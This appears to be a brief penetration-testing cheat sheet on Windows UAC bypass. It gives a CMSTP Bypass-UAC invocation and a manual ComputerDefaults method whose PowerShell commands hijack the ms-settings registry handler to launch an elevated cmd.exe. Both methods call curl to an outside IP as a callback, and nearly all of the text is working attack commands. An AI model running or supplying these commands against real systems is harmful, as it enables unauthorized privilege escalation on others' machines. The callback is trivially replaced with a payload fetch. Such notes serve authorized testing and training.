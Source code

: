 ### CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

### Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
